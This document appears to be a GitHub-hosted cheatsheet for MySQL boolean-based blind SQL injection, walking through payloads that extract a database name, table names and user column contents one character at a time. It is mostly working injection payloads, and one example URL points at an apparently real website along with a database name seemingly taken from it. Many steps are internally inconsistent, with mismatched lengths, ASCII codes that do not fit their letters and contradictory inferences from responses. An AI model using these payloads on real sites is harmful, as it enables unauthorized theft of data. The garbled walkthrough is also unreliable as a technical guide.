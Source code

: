 # MySQL Boolean Based Blind SQL Injection Cheatsheet

## Identifying the vulnerability

Normally in Blind SQLi, you can't really see the output of queries you enter. In this case, the only way to verify about the vulnerability, is by looking if the website loads successfuly or not/partially.

Use the following queries to identify the website behaviour:  

```http://domain.com/index.php?id=1' AND 4570=4570 AND 'ZeoB'='ZeoB```  
Page fully loads successfuly.  

```http://www.nttbworld.com/tour-details.php?id=65' AND 4570=4570 AND 'ZeoB'='ZeoBFalse```  
Page will partially load or it will not even load.  

## Retrieving database

**Retrieving the length of database name**

The given query will verify if database has 14 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 15 --+```  
If website partially loads or doesn't load, it means that database is not 10 characters long.

The given query will verify if database has 9 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 11 --+```  
Page loads successfully. Database name is 11 characters long.

**Retrieving the database name**

This method is slow, because we have to hit-or-miss for every character of the database. Let's take a look below. The below table, will help us convert ascii to string.  

![ascii_table](https://imgs.chip.de/ZBgGgeBx4QyqnxIERLeIjZ0BoXg=/1200x674/filters:format(jpeg):fill(fff,true)/www.chip.de%2Fii%2F8%2F1%2F7%2F6%2F6%2F1%2F0%2F4%2FUnbenannt-41a448c7fdc8d42f.jpg)

The given query will define is the first character of database name is 111 (o)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 110 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  

The given query will define is the first character of database name is 110 (n)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 109 --+```  
Website loads fully, this means the first character of database is **n**.

Continue enumerate the second character of database name.  

The given query will define is the first character of database name is 98 (h)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 97 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  


The given query will define is the first character of database name is 116 (t)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 115 --+```  
Website loads fully, this means the second character of database is **t**.

Continue doing the same process over and over until you find all 11 characters.  

1st character: 110 -> **n**  
2nd character: 116 -> **t**  
3rd character: 116 -> **t**  
4th character: 104 -> **h**  
5th character: 119 -> **w**  
6th character: 102 -> **f**  
7th character: 105 -> **i**  
8th character: 57 -> **9**  
9th character: 95 -> _  
10th character: 100 -> **d**  
11th character: 98 -> **b**  

All 11 charachters combined together will be the database name: **ntthwfi9_db**

**Retrieving length of table name**

Given query will test the condition whether the length of string for the first table is equal than 4 or not.  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+```

The website didn't load properly, so let's try if the length is 5 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+```  
The website loads fully, so the length of the first table name is 5.  

**NOTE:** You can enumerate the others table too, by changing the number value in this part of payload: (limit **0**,1). Simply replace it with another number. For example, let's see if 4th column has 6 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) = 6 --+```  

**Retrieving name of table name**  

On this case, I will enumerate the the first column.
Let's find the first character of table:  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 114 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 116 --+```  
Website fully loads, it means the first character is ascii 117 (u).  


Let's find the last character of table (5th character):  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 96 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 105 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 114 --+```  
Website fully loads, it means the first character is ascii 115 (s).  

Keep doing the same process for the other characters, until you find all the characters.  

1st character: 110 -> **u**  
2nd character: 115 -> **s**  
3rd character: 101 -> **e**  
4th character: 114 -> **r**  
5th character: 115 -> **s**  

All 5 charachters combined together will be the first table name: **users**

**Retrieve length of column name**  

Using the same method as before, enumerate the length of column name.

Given below query will test for string length is equal to 6 or not:  
```' AND (length((select username from users limit 0,1))) = 6 --+```  
Website doesn't load properly, column is not 6 characters long.  

Given below query will test for string length is equal to 4 or not:  
```' AND (length((select username from users limit 0,1))) = 4 --+```  
Website fully loads, column is 6 characters long.  

Using the same method, you can also enumerate other columns.

Enumerate the length of second column if it is 6 or not:  
```' AND (length((select username from users limit 1,1))) = 6 --+```  

Enumerate the length of third column if it is 5 or not:  
```' AND (length((select username from users limit 2,1))) = 5 --+```  

And so on...

**Retrieve column name**

Since we know the length of column name is 4, let's find out the characters one by one.

Given below query will test if the first character of the first column name is ascii 101 (e):  
```' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 100 --+```  
Website doesn't load properly, first char is not **e**.  

Given below query will test if the first character of the first column name is ascii 112 (p):  
``' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 111 --+``  
Website doesn't load properly, first char is **p**.  

Given below query will test if the second character of the first column name is ascii 97 (a):  
``' AND (ascii(substr((select username from users limit 1,1) ,1,1))) > 96 --+``  
Website doesn't load properly, second char is **a**.  

Given below query will test if the third character of the first column name is ascii 115 (p):  
``' AND (ascii(substr((select username from users limit 2,1) ,1,1))) > 114 --+``  
Website doesn't load properly, third char is **s**.  

Given below query will test if the fourth character of the first column name is ascii 115 (p):  
``' AND (ascii(substr((select username from users limit 3,1) ,1,1))) > 114 --+``  
Website doesn't load properly, fourth char is **s**.  

1st character: 110 -> **p**  
2nd character: 97 -> **a**  
3rd character: 115 -> **s**  
4th character: 115 -> **s**  

All 4 charachters combined together will be the column table name: **pass**

